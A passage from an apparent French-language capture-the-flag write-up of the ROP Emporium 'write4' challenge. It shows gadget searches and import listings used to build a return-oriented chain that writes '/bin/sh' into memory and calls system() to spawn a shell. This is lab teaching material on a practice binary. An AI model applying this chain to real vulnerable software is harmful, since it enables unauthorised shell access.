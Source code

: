 Nous allons donc écrire dans la partie `.data` mais comment ? 
Déjà il faut trouver un moyen d’écrire directement a l'endroit mémoire souhaité. 
Mais ce n'est pas si simple, aucun gadget ne fait un `mov` vers l'adresse de  `.data`. 

L'idée est donc la suivante : 
- Copier `0x00001050` dans un registre 
- Copier `/bin/sh` dans un autre registre 
- Trouver un gadget qui déplacerais l'un dans l'autre

étant donné que nous utilisons une adresse il faut trouver un gadget `mov`qui pointe vers un `ptr` :

~~~bash
root@kali:~/rop_emporium/write4# ROPgadget --binary write4 | grep "mov .* ptr"
0x000000000040081c : add byte ptr [rax], al ; add byte ptr [rax], al ; mov qword ptr [r14], r15 ; ret
0x000000000040081e : add byte ptr [rax], al ; mov qword ptr [r14], r15 ; ret
0x0000000000400713 : mov byte ptr [rip + 0x20096e], 1 ; ret
0x0000000000400821 : mov dword ptr [rsi], edi ; ret
0x00000000004005b1 : mov eax, dword ptr [rax] ; add byte ptr [rax], al ; add rsp, 8 ; ret
0x0000000000400877 : mov edi, edi ; call qword ptr [r12 + rbx*8]
0x0000000000400876 : mov edi, r15d ; call qword ptr [r12 + rbx*8]
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x0000000000400712 : pop rbp ; mov byte ptr [rip + 0x20096e], 1 ; ret
0x000000000040081a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; mov qword ptr [r14], r15 ; ret
~~~

Le gadget `0x0000000000400820 : mov qword ptr [r14], r15 ; ret` semble idéal.
Néanmoins la quantité de données déplacé est un *QWORD* soit 8 octets.  La chaîne `/bin/sh` fait 7 Octets, nous allons donc écrire `/bin/sh0x00` a la place.  
Maintenant il faut trouver des instructions `pop` utilisable pour préparer notre `mov` : 

~~~bash
root@kali:~/rop_emporium/write4# ROPgadget --binary write4 | grep "pop r14"
0x000000000040088c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040088e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x000000000040088b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040088f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040088d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
~~~

Ici, `0x0000000000400890 : pop r14 ; pop r15 ; ret` dois faire le job. 

Ensuite, nous reprenons les routines des challenges précédents, il faut appeler `system()`, `le pop rdi` et déterminer la valeur de bourrage requise pour réécrire la stack : 

~~~bash
root@kali:~/rop_emporium/write4# rabin2 -i write4
[Imports]
Num  Vaddr       Bind      Type Name
   1 0x004005d0  GLOBAL    FUNC puts
   2 0x004005e0  GLOBAL    FUNC system
   3 0x004005f0  GLOBAL    FUNC printf
   4 0x00400600  GLOBAL    FUNC memset
   5 0x00400610  GLOBAL    FUNC __libc_start_main
   6 0x00400620  GLOBAL    FUNC fgets
   7 0x00000000    WEAK  NOTYPE __gmon_start__
   8 0x00400630  GLOBAL    FUNC setvbuf
   7 0x00000000    WEAK  NOTYPE __gmon_start__
~~~
